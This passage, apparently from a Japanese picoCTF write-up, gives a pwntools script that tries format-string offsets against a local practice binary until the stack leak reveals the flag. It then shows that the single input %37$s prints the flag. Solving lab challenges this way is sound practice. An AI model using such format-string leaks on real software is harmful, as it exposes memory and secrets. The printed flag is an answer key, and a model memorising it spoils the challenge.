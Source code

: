 ```Python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *
context.log_level = 'critical'

for i in range(1,100):
    try:
        s = process('./vuln')
        print i,
        s.recvuntil('back:\n\n')
        s.sendline('%' +str(i)+ '$s')
        response = s.recv()
        print response
        if ( 'picoCTF' in response ):
            print "Found!!!"
            exit()
        s.close()
        sleep(1)
    except:
        print error
        sleep(1)        
```

<br />
37番目に出てくるので、%37$s 入れるだけでもフラグは取れます。
```
$ ./vuln 
input whatever string you want; then it will be printed back:

%37$s
Now 
your input 
will be printed:

picoCTF{str1nG_CH3353_159c98a8}
```

Flag: `picoCTF{str1nG_CH3353_159c98a8}`




<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

